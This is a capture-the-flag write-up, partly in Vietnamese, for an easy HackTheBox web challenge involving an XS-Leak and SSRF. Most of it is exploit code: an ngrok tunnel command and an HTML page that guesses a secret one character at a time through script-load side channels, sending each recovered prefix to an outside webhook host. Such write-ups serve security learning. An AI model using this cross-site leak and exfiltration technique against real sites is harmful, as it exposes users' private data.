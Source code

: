 ## **HTB** 
### **Difficult:** easy
### **Type:** XS-Leak, SSRF
___
### **Description:**
We discovered a mysterious web portal that we believe are operated by aliens! Can you find out what they don't want us to see?

Author: Itasahobby&Rayhan0x01
___
Nếu /api/entries/search?q=Bac đúng ký tự của title thì sẽ nhận được response 200, nếu không đúng sẽ được response 404.

Code check local:
```
const isLocalhost = req => ((req.ip == '127.0.0.1' && req.headers.host == '127.0.0.1:1337') ? 0 : 1);
```
Vậy nên: ta cần bot puppeteer truy cập vào link để lấy response về cho ta

### **Exploit:** ###

Sử dụng ngrok với scheme http:
```
ngrok --scheme http http 8080
```

index.html:
```
<html>
<script>
var ip = '127.0.0.1:1337'
var flag = 'HTB';
var letters = '!}{@$abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789_';
var url = `http://${ip}/api/entries/search?q=`;
var hook = 'WEB_HOOK_URL'
async function getLetter(ch){
  return new Promise((resolve, reject)=>{
    const script = document.createElement("script");
    script.src = url+encodeURIComponent(flag+ch);
    script.onload = () => ch==='}' ? reject(ch):resolve(ch);
    script.onerror = () => reject(ch);
    document.head.appendChild(script);
  });
}
function resFlag(flag){
    const script = document.createElement("script");
    script.src = 'http://'+hook+'/flag='+encodeURIComponent(flag);
    document.head.appendChild(script);
}
async function getWord(letters) {
  var ch;
  for(var i=0; i < letters.length; i++){
    await getLetter(letters[i]).then((res) => {flag=flag.concat(res); resFlag(flag); i=0} , (res)=> { } );
  }
};
getWord(letters);
</script>
<html>
```